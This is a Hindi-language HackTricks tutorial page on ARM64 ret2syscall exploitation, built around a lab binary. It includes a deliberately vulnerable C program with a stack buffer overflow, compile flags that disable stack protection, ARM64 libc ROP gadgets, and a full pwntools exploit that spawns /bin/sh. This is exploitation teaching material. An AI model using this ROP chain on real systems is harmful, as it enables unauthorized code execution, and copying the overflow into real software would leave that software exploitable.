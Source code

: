 # Ret2syscall - ARM64

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

arm64 का परिचय यहाँ देखें:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}

## कोड

हम पृष्ठ से उदाहरण का उपयोग करने जा रहे हैं:

{% content-ref url="../../stack-overflow/ret2win/ret2win-arm64.md" %}
[ret2win-arm64.md](../../stack-overflow/ret2win/ret2win-arm64.md)
{% endcontent-ref %}
```c
#include <stdio.h>
#include <unistd.h>

void win() {
printf("Congratulations!\n");
}

void vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
vulnerable_function();
return 0;
}
```
बिना पीआईई और कैनरी के संकलित करें:
```bash
clang -o ret2win ret2win.c -fno-stack-protector
```
## Gadgets

**syscall** के लिए कॉल तैयार करने के लिए निम्नलिखित कॉन्फ़िगरेशन की आवश्यकता है:

* `x8: 221 sys_execve निर्दिष्ट करें`
* `x0: ptr to "/bin/sh" निष्पादित करने के लिए फ़ाइल निर्दिष्ट करें`
* `x1: 0 कोई तर्क नहीं दिया गया`
* `x2: 0 कोई पर्यावरण चर नहीं दिया गया`

ROPgadget.py का उपयोग करके, मैं मशीन के libc पुस्तकालय में निम्नलिखित गैजेट्स को खोजने में सक्षम था:

{% code overflow="wrap" %}
```armasm
;Load x0, x1 and x3 from stack and x5 and call x5
0x0000000000114c30:
ldp x3, x0, [sp, #8] ;
ldp x1, x4, [sp, #0x18] ;
ldr x5, [sp, #0x58] ;
ldr x2, [sp, #0xe0] ;
blr x5

;Move execve syscall (0xdd) to x8 and call it
0x00000000000bb97c :
nop ;
nop ;
mov x8, #0xdd ;
svc #0
```
{% endcode %}

पिछले गैजेट्स के साथ, हम स्टैक से सभी आवश्यक रजिस्टरों को नियंत्रित कर सकते हैं और syscall को कॉल करने के लिए दूसरे गैजेट पर कूदने के लिए x5 का उपयोग कर सकते हैं।

{% hint style="success" %}
यह ध्यान दें कि libc लाइब्रेरी से इस जानकारी को जानने से ret2libc हमले को भी करना संभव है, लेकिन चलिए इसे इस वर्तमान उदाहरण के लिए उपयोग करते हैं।
{% endhint %}

### Exploit
```python
from pwn import *

p = process('./ret2syscall')
elf = context.binary = ELF('./ret2syscall')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

#0x0000000000114c2c : bl #0x133070 ; ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5
load_x0_x1_x2 = libc.address + 0x114c30 # ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5

# 0x00000000000bb97c : nop ; nop ; mov x8, #0xdd ; svc #0
call_execve = libc.address + 0xbb97c

print("/bin/sh in: " + hex(binsh))
print("load_x0_x1_x2 in: " + hex(load_x0_x1_x2))
print("call_execve in: " + hex(call_execve))

# stack offset
bof = b"A" * (stack_offset)
bof += p64(load_x0_x1_x2)

# ldp x3, x0, [sp, #8]
rop = b"BBBBBBBBBBBBBBBB" #x3
rop += p64(binsh) #x0

# ldp x1, x4, [sp, #0x18]
rop += b"C"*(0x18 - len(rop))
rop += p64(0x00) # x1
rop += b"CCCCCCCC" #x4

# ldr x5, [sp, #0x58]
rop += b"D"*(0x58 - len(rop))
rop += p64(call_execve) # x5

# ldr x2, [sp, #0xe0]
rop += b"E" * (0xe0 - len(rop))
rop += p64(0x00) # x2

payload = bof + rop

p.sendline(payload)

p.interactive()
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
